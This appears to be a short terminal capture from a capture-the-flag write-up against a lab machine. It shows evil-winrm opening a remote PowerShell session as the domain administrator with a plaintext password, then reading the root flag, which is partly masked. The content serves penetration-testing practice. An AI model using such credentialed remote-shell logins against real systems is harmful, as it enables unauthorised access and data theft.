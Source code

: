 ```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.10.149 -u SUPPORTDESK\\administrator -s . -e . -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> ls


    Directory: C:\Users\Administrator\Documents

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
ea7f3d28835999e15692900d********
```






